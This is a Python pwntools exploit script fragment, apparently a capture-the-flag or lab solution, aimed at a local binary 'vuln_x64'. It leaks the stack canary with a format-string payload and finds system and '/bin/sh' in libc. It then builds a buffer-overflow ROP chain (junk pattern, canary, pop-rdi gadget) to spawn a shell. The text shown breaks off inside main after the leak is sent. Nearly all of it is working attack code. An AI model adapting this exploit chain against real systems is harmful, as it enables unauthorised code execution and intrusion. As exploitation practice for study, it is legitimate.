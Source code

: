 ```python
    print '[+] Canary value is: %s' % full_canary_value
    canary_to_int = cast_hex_to_int(full_canary_value)
    return canary_to_int


def leak_all_the_things():
    payload = ''
    payload += '%llx.'*71
    return payload


def get_system_in_glibc(libc_base):
    print("[+] system@libc has offset: {}".format(hex(libc.symbols['system'])))
    system_call = libc_base + libc.symbols['system']
    print("[+] This puts the system call to {}".format(hex(system_call)))
    return system_call


def get_bin_sh_in_glibc(libc_base):
    bin_sh = int(libc.search("/bin/sh").next())
    print("[+] /bin/sh located @ offset {}".format(hex(bin_sh)))
    shell_addr = libc_base + bin_sh
    print("[+] This puts the shell to {}".format(hex(shell_addr)))
    return shell_addr


def get_cyclic_pattern(length):
    pattern = cyclic(length)
    return pattern


def create_payload(canary, system, shell):
    junk_pattern = get_cyclic_pattern(1032)
    payload = ''
    payload += junk_pattern					# junk pattern to fill buffer
    payload += p64(canary)					# place canary at the right position
    payload += 'AAAAAAAA'					# overwrite RBP with some junk
    payload += p64(pop_rdi_ret_gadget)		# overwrite RIP with the address of our ROP gadget 
    payload += p64(shell)					# pointer to /bin/sh in libc
    payload += p64(system)					# system@glibc
    return payload


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binaries/vuln_x64'

    format_string_leak = leak_all_the_things()

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""      
                b *trustMeIAmAnEngineer+56   
                continue
                """)
    else:
        r = process([exe])

    r.recvuntil("$> ")
    r.sendline(format_string_leak)

```